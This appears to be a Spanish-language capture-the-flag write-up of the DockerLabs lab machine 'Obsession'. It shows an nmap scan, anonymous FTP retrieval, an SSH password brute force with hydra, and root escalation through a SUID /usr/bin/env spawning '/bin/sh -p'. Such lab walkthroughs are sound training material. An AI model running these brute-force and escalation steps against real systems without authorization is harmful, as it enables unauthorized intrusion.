 ```yaml
---
title: Obsession - DockerLabs
categories: [ Linux ]
tags: [DockerLabs]
---
```


<img src="/assets/img/DLabs/obsession/obsession.png" alt="Captura de pantalla de la máquina Obsession en DockerLabs">

Hoy explotaremos la máquina *Obsession* de [DockerLabs](https://dockerlabs.es/), de dificultad Muy Fácil. Vamos a obtener datos vía FTP y realizar un ataque de fuerza bruta con *hydra*.

## Desplegamos la máquina

```bash
➤ sudo bash auto_deploy.sh obsession.tar 
[sudo] contraseña para nmc:     

	                    ##        .         
	              ## ## ##       ==         
	           ## ## ## ##      ===         
	       /""""""""""""""""\___/ ===       
	  ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
	       \______ o          __/           
	         \    \        __/            
	          \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
				     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```



## Escaneo NMAP

Antes que nada, realizaremos un escaneo de puertos con **nmap** para encontrar los puertos abiertos y qué servicios están corriendo en ellos.

```bash
➤ nmap -sV -p- --min-rate=100 -T4 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-19 16:34 CST
Nmap scan report for 172.17.0.2
Host is up (0.00011s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.05 seconds
```



Nos percatamos de que tenemos tres puertos abiertos: <mark>21 (FTP)</mark>, <mark>22 (SSH)</mark> y <mark>80 (HTTP con Apache)</mark>.

## Conexión FTP

Nos conectamos por FTP y nos logueamos con el usuario *anónimo*.

```bash
➤ ftp 172.17.0.2
Connected to 172.17.0.2.
220 (vsFTPd 3.0.5)
Name (172.17.0.2:nmc): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||26272|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             667 Jun 18  2024 chat-gonza.txt
-rw-r--r--    1 0        0             315 Jun 18  2024 pendientes.txt
226 Directory send OK.
ftp>
```



Descargamos los dos archivos `.txt` usando `get`.

```bash
ftp> get chat-gonza.txt
local: chat-gonza.txt remote: chat-gonza.txt
229 Entering Extended Passive Mode (|||8226|)
150 Opening BINARY mode data connection for chat-gonza.txt (667 bytes).
100% |***********************************|   667        4.51 MiB/s    00:00 ETA
226 Transfer complete.
667 bytes received in 00:00 (579.50 KiB/s)
ftp> get pendientes.txt
local: pendientes.txt remote: pendientes.txt
229 Entering Extended Passive Mode (|||40743|)
150 Opening BINARY mode data connection for pendientes.txt (315 bytes).
100% |***********************************|   315        2.91 MiB/s    00:00 ETA
226 Transfer complete.
315 bytes received in 00:00 (368.84 KiB/s)
```



Revisamos los archivos con `cat`.

```bash
➤ cat chat-gonza.txt 
[16:21, 16/6/2024] Gonza: pero en serio es tan guapa esa tal Nágore como dices?
[16:28, 16/6/2024] Russoski: es una auténtica princesa pff, le he hecho hasta un vídeo y todo, lo tengo ya subido y tengo la URL guardada
[16:29, 16/6/2024] Russoski: en mi ordenador en una ruta segura, ahora cuando quedemos te lo muestro si quieres
[21:52, 16/6/2024] Gonza: buah la verdad tenías razón eh, es hermosa esa chica, del 9 no baja
[21:53, 16/6/2024] Gonza: por cierto buen entreno el de hoy en el gym, noto los brazos bastante hinchados, así sí
[22:36, 16/6/2024] Russoski: te lo dije, ya sabes que yo tengo buenos gustos para estas cosas xD, y sí buen training hoy

➤ cat pendientes.txt 
1 Comprar el Voucher de la certificación eJPTv2 cuanto antes!

2 Aumentar el precio de mis asesorías online en la Web!

3 Terminar mi laboratorio vulnerable para la plataforma Dockerlabs!

4 Cambiar algunas configuraciones de mi equipo, creo que tengo ciertos
  permisos habilitados que no son del todo seguros..
```



Como vemos en el primer archivo, aparecen dos posibles usuarios. Así que utilizaremos *hydra* mientras observamos la web por si hay alguna pista.

<img src="/assets/img/DLabs/obsession/obsession-web.png" alt="Captura de pantalla de la pagina web de Obsession">

## Hydra

Como observamos tanto en la web como en el chat, parece que el usuario principal es **russoski**, así que buscaremos su contraseña con *hydra*.

```bash
➤ hydra -l russoski  -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: russoski   password: iloveme
[STATUS] 14344398.00 tries/min, 14344398 tries in 00:01h, 2 to do in 00:01h, 12 active
```



Se encontró la contraseña: **iloveme**

## Infiltración 

Nos logueamos y aprovechamos los permisos incorrectos, como se menciona en el segundo archivo.

```bash
➤ ssh russoski@172.17.0.2
russoski@172.17.0.2's password: 
Welcome to Ubuntu 24.04 LTS (GNU/Linux 6.8.0-60-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Fri Jun 20 00:28:48 2025 from 172.17.0.1
russoski@38a21dd80d6e:~$ sudo -l
Matching Defaults entries for russoski on 38a21dd80d6e:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User russoski may run the following commands on 38a21dd80d6e:
    (root) NOPASSWD: /usr/bin/vim
```



El usuario *russoski* tiene permiso para ejecutar **/usr/bin/vim** como root sin contraseña.

## Escalada de privilegios

Buscamos archivos con el bit **SUID** activado:

```bash
russoski@38a21dd80d6e:~$ find / -perm -4000 -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/su
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/mount
/usr/bin/env
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/sudo
russoski@38a21dd80d6e:~$
```



El binario <mark>/usr/bin/env</mark> tiene el bit **SUID** activado, lo que permite ejecutarlo con privilegios de root. Lo aprovechamos para escalar privilegios con el siguiente comando y verificamos con `whoami`:

```bash
russoski@38a21dd80d6e:~$ /usr/bin/env /bin/sh -p
# whoami
root
#
```



## Acceso ROOT obtenido

¡Máquina comprometida! Te deseo un feliz hackeo.
